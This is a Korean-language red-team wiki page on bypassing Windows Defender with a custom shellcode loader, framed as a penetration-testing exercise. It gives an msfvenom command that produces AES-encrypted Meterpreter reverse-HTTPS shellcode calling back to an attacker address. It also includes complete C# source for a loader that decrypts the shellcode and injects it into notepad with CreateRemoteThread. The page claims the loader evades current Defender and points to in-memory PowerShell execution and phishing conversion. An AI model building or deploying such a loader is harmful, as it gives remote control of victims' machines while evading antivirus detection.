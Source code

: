 # 간단 디펜더 우회

윈도우 10과 윈도우 11의 워크스테이션용 디펜더는 날이 갈수록 그 성능이 좋아지고 있다. EDR 솔루션들 만큼은 아니지만, 시중에 나와있는 평범한 AV 솔루션들보다 그 성능이 더 좋아보일 정도다. 모의해킹을 진행하다보면 시간이 적어 빨리 빨리 일을 진행해야하기 때문에 매번 페이로드를 새롭게 생성할 시간적 여유가 없다. 이 페이지에서는 간단하게 워크스테이션용 디펜더 (ATP는 아니다)를 커스텀 로더 (Custom Loader)를 이용해 우외하는 방법에 대해서 알아본다.&#x20;

실습에서 만들 커스텀 로더는 AES256으로 암호화된 쉘코드를 런타임 중 복호화하고, 그 뒤 전통적인 `CreateRemoteThread` 프로세스 인젝션으로 미터프리터 (Meterpreter) 쉘코드를 실행할 것이다.&#x20;

### 쉘코드&#x20;

쉘코드는 미터프리터로, msfvenom을 이용해 만든다. 일반적인 쉘코드와는 다르게 암호화 플래그를 사용한다. AES256-CBC 암호화에는 32바이트 (256비트) 암호화 키와 16바이트 (128비트) IV를 사용하기 때문에, 이를 bash를 이용해 먼저 구한 뒤 쉘코드를 생성한다.&#x20;

```
# 키 생성 
bash -c 'echo $RANDOM | md5sum | head -c 32; echo;'

# IV 생성 
bash -c 'echo $RANDOM | md5sum | head -c 16; echo;'

# 키와 IV를 바탕으로 예제 쉘코드 생성
msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
```

이제 이 쉘코드를 커스텀 로더에 집어넣은 뒤, 프로세스 인젝션을 통해 실행시켜보자.&#x20;

### 커스텀 로더 (Loader)&#x20;

기본적으로 msfvenom으로 만드는 미터프리터 (Meterpreter)의 경우에는 `.exe` 나 `.ps1` 등의 페이로드가 이미 디펜더에 시그니쳐 되어있다. 때문에 msfvenom 이 만들어주는 페이로드를 사용하지 않고, 간단하게 커스텀 로더를 만든다.&#x20;

이 실습에서는 가장 간단하게 아무런 난독화를 거치지 않고, 공개된지 매우 오래된 CreateRemoteThread 기법을 사용한 커스텀 로더를 제작한다.&#x20;

<details>

<summary>EncryptedCreateRemoteThread.cs</summary>

```
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;
using System.Threading;

namespace EncryptCreateRemoteThread
{
    class Program
    {
        public static byte[] Aes256Decrypt(byte[] data, byte[] key, byte[] iv)
        {
            using (var aes = Aes.Create())
            {
                aes.KeySize = 128;
                aes.BlockSize = 128;
                aes.Padding = PaddingMode.Zeros;

                aes.Key = key;
                aes.IV = iv;

                using (var decryptor = aes.CreateDecryptor(aes.Key, aes.IV))
                {
                    return PerformCryptography(data, decryptor);
                }
            }
        }

        private static byte[] PerformCryptography(byte[] data, ICryptoTransform cryptoTransform)
        {
            using (var ms = new MemoryStream())
            using (var cryptoStream = new CryptoStream(ms, cryptoTransform, CryptoStreamMode.Write))
            {
                cryptoStream.Write(data, 0, data.Length);
                cryptoStream.FlushFinalBlock();

                return ms.ToArray();
            }
        }

        static void Main(string[] args)
        {
            // msfvenom -p windows/x64/meterpreter/reverse_https --encrypt aes256 --encrypt-key 9db7ad8ace353ab54a812373d7c0a01f --encrypt-iv 3a9d7c0cf4ac0431 lhost=192.168.40.182 lport=443 exitfunc=thread -f csharp -v bufEncrypted
            byte[] bufEncrypted = new byte[624] { <shellcode...> };

            string key = "9db7ad8ace353ab54a812373d7c0a01f";
            string iv = "3a9d7c0cf4ac0431";
            byte[] buf = Aes256Decrypt(bufEncrypted, Encoding.ASCII.GetBytes(key), Encoding.ASCII.GetBytes(iv));

            var process = Process.Start(@"C:\windows\system32\notepad.exe");
            var pid = process.Id;

            IntPtr hProc = OpenProcess(ProcessAccessFlags.All, false, pid);
            IntPtr pAlloc = VirtualAllocEx(hProc, IntPtr.Zero, (uint)buf.Length, (uint)(AllocationType.Commit | AllocationType.Reserve), (uint)MemoryProtection.ReadWrite);
            bool rWPM = WriteProcessMemory(hProc, pAlloc, buf, (uint)buf.Length, out IntPtr byteWritten);
            bool rVPE = VirtualProtectEx(hProc, pAlloc, (uint)buf.Length, (uint)MemoryProtection.ExecuteRead, out uint lpflOldProtect);
            IntPtr hThread = CreateRemoteThread(hProc, IntPtr.Zero, (uint)0, pAlloc, IntPtr.Zero, (uint)0, out IntPtr lpThreadId);


            /*Console.WriteLine("[+] Process handle = {0}", hProc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] Allocated memory address = 0x{0}", pAlloc.ToInt64().ToString("x2"));
            Console.WriteLine("[+] WriteProcessMemory result = {0}", rWPM.ToString());
            Console.WriteLine("[+] VirtualProtectExe result = {0}", rVPE.ToString());
            Console.WriteLine("[+] Thread handle = {0}", hThread.ToInt64().ToString("x2"));*/
        }

        //  ============================ PInvoke - Ignore me ============================

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern IntPtr OpenProcess(ProcessAccessFlags processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out IntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        static extern bool VirtualProtectEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out IntPtr lpThreadId);

        [Flags]
        public enum ProcessAccessFlags : uint
        {
            All = 0x001F0FFF,
            Terminate = 0x00000001,
            CreateThread = 0x00000002,
            VirtualMemoryOperation = 0x00000008,
            VirtualMemoryRead = 0x00000010,
            VirtualMemoryWrite = 0x00000020,
            DuplicateHandle = 0x00000040,
            CreateProcess = 0x000000080,
            SetQuota = 0x00000100,
            SetInformation = 0x00000200,
            QueryInformation = 0x00000400,
            QueryLimitedInformation = 0x00001000,
            Synchronize = 0x00100000
        }

        [Flags]
        public enum AllocationType
        {
            Commit = 0x1000,
            Reserve = 0x2000,
            Decommit = 0x4000,
            Release = 0x8000,
            Reset = 0x80000,
            Physical = 0x400000,
            TopDown = 0x100000,
            WriteWatch = 0x200000,
            LargePages = 0x20000000
        }

        [Flags]
        public enum MemoryProtection
        {
            Execute = 0x10,
            ExecuteRead = 0x20,
            ExecuteReadWrite = 0x40,
            ExecuteWriteCopy = 0x80,
            NoAccess = 0x01,
            ReadOnly = 0x02,
            ReadWrite = 0x04,
            WriteCopy = 0x08,
            GuardModifierflag = 0x100,
            NoCacheModifierflag = 0x200,
            WriteCombineModifierflag = 0x400
        }
    }
}
```

</details>

PInvoke를 제외한다면 `OpenProcess -> VirtualAllocEx -> WriteProcessMemory -> VirtualProtectEx -> CreateRemoteThread` 를 사용하는 전통적인 프로세스 인젝션 로더다. 이와 관련된 기법은 이 [CreateRemoteThread 페이지](process-injection/createremotethread.md)에서 서술했다.&#x20;

`Main()` 함수를 보다보면 안에 `bufEncrypted` 변수가 있다. 여기에는 위에서 만든 쉘코드를 집어넣어주면 된다.&#x20;

PDB를 제거한 뒤, x64로 컴파일한다. 20년이 넘은 `CreateRemoteThread` 기법에 아무런 난독화를 거치지 않아도 정적분석은 나름 괜찮게 우회하는 편이다. 물론 왠만한 EDR 솔루션들은 위 페이로드를 실행하는 순간 바로 잡아낼 것이다. (디펜더 우회가 아니라 EDR 솔루션 우회는 direct syscall 과 Call Stack Spoofing 등의 기법을 이용하는데, 이에 대해서는 다른 페이지에서 서술한다.)

![https://www.virustotal.com/gui/file/2c23e1512d8e928202237d86f98145f30d544e78f1ed756a497d3482a4ffa262/detection](<../.gitbook/assets/image (15).png>)



최신 EDR 솔루션들을 우회하기는 어렵겠지만, 가장 최신 버전의 디펜더는 우회하는 모습을 볼 수 있다.&#x20;

![](../.gitbook/assets/custom-loader.gif)

C# 으로 만든 페이로드기 때문에 [파워쉘-C# 페이지](../execution/powershell/csharp-execution.md)에서 서술했던 대로 메모리상에서 파워쉘을 통해 실행시킬 수도 있다. 혹은 [DotNettoJS 페이지](../initial-access/phish-attachments/dotnettojs.md)에서 서술했던 대로 JScript나 VBScript 등으로 변환할 수도 있다.&#x20;
